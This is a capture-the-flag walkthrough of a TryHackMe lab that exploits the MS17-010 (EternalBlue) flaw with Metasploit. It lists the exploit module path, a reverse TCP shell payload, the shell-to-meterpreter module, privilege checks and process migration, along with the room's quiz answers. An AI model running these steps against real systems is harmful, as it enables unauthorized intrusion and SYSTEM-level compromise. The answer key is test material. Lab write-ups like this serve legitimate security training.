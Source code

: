 - Now, we have hop back into our meterpreter session by using the `sessions 1` command. 
- To verify that our privilege escalation worked, we can use `getsystem` and see what it says:
```
meterpreter > getsystem
[-] Already running as SYSTEM
```

- As we can see, we are running as system. From here, we can beep bop and boop around and find the flags. This is the end of the walkthrough for compromising the host, but I would highly recommend playing around with [Metasploit](https://www.metasploit.com/) and getting a feel for the commands, how to navigate in the console, and how to leverage meterpreter. I have a full video walkthrough [here](https://www.youtube.com/watch?v=_g5WFt1DYMU&t=2073s)

## THM Questions
### Recon
1. Scan the machine.
2. How many ports are open with a port number under 1000?
	1. 3
3. What is the machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
	1. ms17-010

### Gain Access
1. Start [Metasploit](https://www.metasploit.com/).
2.   Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)
	1. `exploit/windows/smb/ms17_010_eternalblue`
3. Show options and set the one required value. What is the name of this value? (All caps for submission).
	1. RHOSTS

- Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:
```
set payload windows/x64/shell/reverse_tcp
```

4. With that done, run the exploit.
5.  Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target.

### Escalate
1.  If you haven't already, background the previously gained shell (`CTRL + Z`). Research online how to convert a shell to meterpreter shell in [Metasploit](https://www.metasploit.com/). What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) 
	1. `post/multi/manage/shell_to_meterpreter`
2.  Select this (use MODULE_PATH). Show options, what option are we required to change?
	1. SESSION
3.  Set the required option, you may need to list all of the sessions to find your target here.
4. Run! If this doesn't work, try completing the exploit from the previous task once more. 
5. Once the meterpreter shell conversion completes, select that session for use.
6. Verify that we have escalated to `NT AUTHORITY\SYSTEM`. Run `getsystem` to confirm this. Feel free to open a dos shell via the command 'shell' and run `whoami`. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again.
7. List all of the processes running via the `ps` command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at `NT AUTHORITY\SYSTEM` and write down the process id (far left column).
8. Migrate to this process using the `migrate PROCESS_ID` command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time. 
